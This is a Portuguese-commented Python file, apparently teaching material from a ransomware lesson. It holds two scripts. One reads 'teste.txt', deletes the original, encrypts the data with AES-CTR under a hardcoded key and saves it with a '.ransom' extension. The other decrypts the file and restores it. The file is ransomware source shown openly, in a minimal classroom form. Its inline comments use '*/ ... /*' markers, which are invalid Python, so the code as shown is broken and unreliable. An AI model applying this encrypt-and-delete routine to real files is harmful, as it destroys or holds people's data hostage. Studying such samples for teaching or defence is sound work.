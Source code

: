                     ##Criando um encripitador e descriptador##


         ##Criando o decripitador baseado na senha do encripitador acima

import os */Biblioteca com funçoes que interagem com o sitema operacional/*
import pyaes */biliblioteca python para criptografia de arquivos que usa o algoritmo AES/*

## abrir o arquivo a ser criptografado
file_name = "teste.txt"  */nome do arquivo esta entre aspas duplas, esta sendo armazenado na variavel file_name/*
file = open(file_name, "rb")   */comando rb le o arquivo designado pela variavel /*
file_data = file.read()   */esta sendo feito a leito e armazenado na variavel file_data/*
file.close()  */fecha o arquivo/*

## remover o arquivo
os.remove(file_name) */remove o arquivo file_name/*

## chave de criptografia
key = b"aula_ransomwares" */chave da criptografia/*
aes = pyaes.AESModeOfOperationCTR(key)  */tipo de chave/*

## criptografar o arquivo
crypto_data = aes.encrypt(file_data) */encripta o arquivo file_data/*

## salvar o arquivo criptografado
new_file = file_name + ".ransom" */ salvando o arquivo com extensao .ransom/*
new_file = open(f'{new_file}','wb') */comando wb grava o arquivo destinado pela variavel/*
new_file.write(crypto_data) */gravado  as informaçoes no arquivo criptografado/*
new_file.close() */fechando o arquivo/*


           ##Criando o descriptador baseado na senha do encripitador acima##

import os */Biblioteca com funçoes que interagem com o sitema operacional/*
import pyaes */biliblioteca python para criptografia de arquivos que usa o algoritmo AES/*

## abrir o arquivo criptografado 
file_name = "teste.txt.ransom"  */nome do arquivo esta entre aspas duplas, esta sendo armazenado na variavel file_name/*
file = open(file_name, "rb")   */comando rb le o arquivo designado pela variavel /*
file_data = file.read()   */esta sendo feito a leito e armazenado na variavel file_data/*
file.close()  */fecha o arquivo/*

## chave para descriptografia
key = b"aula_ransomwares" */chave da descriptografia/*
aes = pyaes.AESModeOfOperationCTR(key)  */tipo de chave/*
decrypt_data = aes.decrypt(file_data) */decripta o arquivo file_data/*

## remover o arquivo criptografado
os.remove(file_name) */remove o arquivo file_name/*

## criar o arquivo descriptografado
new_file = "teste.txt" */criando no arquivo/*
new_file = open(f'{new_file}', "wb")  */comando wb grava o arquivo destinado pela variavel/*
new_file.write(decrypt_data) */gravado  as informaçoes no arquivo ja descriptografado/*
new_file.close() */fechando o arquivo/*
